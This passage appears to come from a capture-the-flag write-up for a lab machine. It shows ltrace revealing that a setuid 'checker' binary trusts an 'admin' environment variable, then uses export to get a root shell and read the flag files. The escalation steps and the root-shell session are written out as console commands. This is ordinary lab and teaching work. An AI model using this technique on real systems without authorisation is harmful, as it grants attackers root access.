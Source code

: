 ![IDA](pic/Screenshot%202020-07-17%20at%2020.40.46.png)

So seem like if `admin` is not set then we will get `Not an Admin` message. let try run `ltrace`, a  debugging utility in Linux. read more about it [here](https://en.wikipedia.org/wiki/Ltrace) and [here](https://blog.packagecloud.io/eng/2016/03/14/how-does-ltrace-work/) 


```console
$ ltrace checker
getenv("admin")                                  = nil
puts("Not an Admin")                             = 13
Not an Admin
+++ exited (status 0) +++
```

So if the global varible call `admin` is not set, it will return `Not an Admin`. to create a global varible use ```export```
```console
$ export admin=kurohat
export admin=kurohat
$ ltrace checker
getenv("admin")                                  = "kurohat"
setuid(0)                                        = -1
system("/bin/bash")
```
**IT WORKS!!!!**
```console
$ checker
checker
root@blog:/var/www/wordpress# ls /media/usb
ls /media/usb
user.txt
root@blog:/var/www/wordpress# cat /media/usb/user.txt
cat /media/usb/user.txt
root@blog:/var/www/wordpress# cd /root/
cd /root/
root@blog:/root# ls
ls
root.txt
root@blog:/root# cat root.txt
cat root.txt
```

PS. if you have **Ghidra** use it in stead for **IDA**, it come with `Decompiling` feature I will try it next time